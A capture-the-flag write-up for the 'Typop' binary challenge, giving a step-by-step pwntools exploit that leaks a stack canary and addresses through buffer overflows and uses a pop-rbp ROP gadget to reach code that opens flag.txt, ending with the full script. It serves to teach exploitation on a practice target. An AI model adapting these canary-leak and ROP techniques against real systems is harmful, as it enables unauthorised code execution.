## Typop

Start by running checksec on the binary.



We have a 64 bit binary with all protections turned on.  Load the binary into ghidra and lets look at the decompilation.





We see 2 stack overflow vulnerabilities in getFeedback().  We also see that the function will get called indefinitely in a while loop in main.  Finally there is a win() function that will read the flag from the stack but we need to provide 'f', 'l', and 'a' as arguments.

To get this exploit to work I used 2 passes of the getFeedback() function.  The first leaked the stack canary and the frame pointer.  The second pass leaked the return address and jumps to the win function.

Start by trying to leak the stack canary.  Here is what the stack looks like for getFeedback().



The first read operation has a max size of 0x1e it will return our buffer back to us.  We can use this to read the stack canary and the frame address.  The exploit requires 10 bytes which will overwrite the null bute at the end of the stack canary.  Lets test it.



It works.  Begin writing our exploit.

```python
from pwn import *

u = make_unpacker(64, endian='little', sign='unsigned')
binary = context.binary = ELF("./attachments/chall")

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('typop.chal.idek.team', 1337)

payload =  b"y"
with open("payload", "wb") as fp:
    fp.write(payload)
p.sendline(payload)

p.recvuntil("Do you like ctf?\n")
payload = b""
payload += b"A" * 11
with open("payload", "ab") as fp:
    fp.write(payload)
p.send(payload)

buf = p.recvuntil("Can you provide some extra feedback?\n")
tmp = buf.split(b"AAAAAAAAAAA")[1]
tmp = tmp.split(b"\nAww")[0]
stack_canary = u(b"\x00" + tmp[:7])
stack_addr = u(tmp[7:].ljust(8, b"\x00"))
print(hex(stack_canary))
print(hex(stack_addr))
...
```

Lets test it.



Looks good.  Now lets focus on the second read.  The exploit on the first read overwrote the last byte of the stack canary so we need to repair it.  Add the next payload to our code.

```python
...
payload = b""
payload += b"B" * 10
payload += p64(stack_canary)
with open("payload", "ab") as fp:
    fp.write(payload)
p.send(payload)
...
```

We also need to provide another input to pass the check in main().

```python
...
# Second loop
p.recvuntil("Do you want to complete a survey?\n")
payload =  b"y"
with open("payload", "ab") as fp:
    fp.write(payload)
p.sendline(payload)
...
```

Now we have arrived at the second pass of getFeedback.  We can leak the return address this time.

```python
...
p.recvuntil("Do you like ctf?\n")
payload = b""
payload += b"B" * 26
with open("payload", "ab") as fp:
    fp.write(payload)
p.send(payload)

buf = p.recvuntil("Can you provide some extra feedback?\n")
main_addr = buf.split(b"BBBBBBBBBBBBBBBBBBBBBBBBBB")[1].split(b"\nAww")[0]
print(hex(u(main_addr.ljust(8, b"\x00"))))
...
```

Lets test again.



Looks like it worked.

Now comes the hard part.  We can jump to the win address but we need to set up the arguments in RDI, RSI, and RDX.  Fortunately the second read vulnerability provides plenty of stack space for some return-oriented programming.  Look for ROP gadgets.



Hmm.  We have gadgets to set RDI and RSI but not RDX.  I did some looking around but didn't find anything that would work.  Time to try a different approach.

My solution was to bypass the filename creation entirely and jump to right before fopen().  Take a look at the disassembly.



Address 0x1012ac copies the filename from the stack to RDI.  We can pass the "flag.txt" string in with our exploit.  To do this we will need to find a rop gadget that will move the frame pointer 0x4a bytes above the start of our "flag.txt" string.  Find a rop gadget to "pop rbp".



0x1233 will work nicely.  Here is what our payload will look like on the stack in getFeedback().

```
            |-----------------|
$rbp + 0x20 | "flag.txt" buf  |
$rbp + 0x18 | ret addr 0x12ac |     jump to win address
$rbp + 0x10 |     new RBP     |     rbp = buf addr + 0x4a
$rbp + 0x8  | ret addr 0x1233 |     rop gadget (pop rbp; ret)
$rbp        |   "BBBBBBBB"    |     frame ptr
$rbp - 0x8  |  stack canary   |
$rbp - 0x10 |   "AAAAAAAA"    |
            |-----------------|
```

When fopen is called the stack pointer will be just below the "flag.txt" buffer.  Add the last few lines to our exploit.

```python
# 0x12ac
win_addr = u(main_addr.ljust(8, b"\x00")) - 0x19b
# 0x1233    pop rbp
rop_addr = u(main_addr.ljust(8, b"\x00")) - 0x214
payload = b"A" * 10
payload += p64(stack_canary)

payload += b"B" * 8
payload += p64(rop_addr)

new_frame_ptr = stack_addr + 90
payload += p64(new_frame_ptr)
payload += p64(win_addr)

payload += b"flag.txt\x00"

with open("payload", "ab") as fp:
    fp.write(payload)
p.send(payload)
```

Last thing to do is run it.



Complete!  Here is the final code.

#### exploit.py
```python
from pwn import *

u = make_unpacker(64, endian='little', sign='unsigned')
binary = context.binary = ELF("./attachments/chall")

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('typop.chal.idek.team', 1337)

payload =  b"y"
with open("payload", "wb") as fp:
    fp.write(payload)
p.sendline(payload)

p.recvuntil("Do you like ctf?\n")
payload = b""
payload += b"A" * 11
with open("payload", "ab") as fp:
    fp.write(payload)
p.send(payload)

buf = p.recvuntil("Can you provide some extra feedback?\n")
tmp = buf.split(b"AAAAAAAAAAA")[1]
tmp = tmp.split(b"\nAww")[0]
stack_canary = u(b"\x00" + tmp[:7])
stack_addr = u(tmp[7:].ljust(8, b"\x00"))
payload = b""
payload += b"B" * 10
payload += p64(stack_canary)
with open("payload", "ab") as fp:
    fp.write(payload)
p.send(payload)

# Second loop
p.recvuntil("Do you want to complete a survey?\n")
payload =  b"y"
with open("payload", "ab") as fp:
    fp.write(payload)
p.sendline(payload)

p.recvuntil("Do you like ctf?\n")
payload = b""
payload += b"B" * 26
with open("payload", "ab") as fp:
    fp.write(payload)
p.send(payload)

buf = p.recvuntil("Can you provide some extra feedback?\n")
main_addr = buf.split(b"BBBBBBBBBBBBBBBBBBBBBBBBBB")[1].split(b"\nAww")[0]
# 0x12ac
win_addr = u(main_addr.ljust(8, b"\x00")) - 0x19b
# 0x1233    pop rbp
rop_addr = u(main_addr.ljust(8, b"\x00")) - 0x214
payload = b"A" * 10
payload += p64(stack_canary)

payload += b"B" * 8
payload += p64(rop_addr)

new_frame_ptr = stack_addr + 90
payload += p64(new_frame_ptr)
payload += p64(win_addr)

payload += b"flag.txt\x00"

with open("payload", "ab") as fp:
    fp.write(payload)
p.send(payload)

p.interactive()
```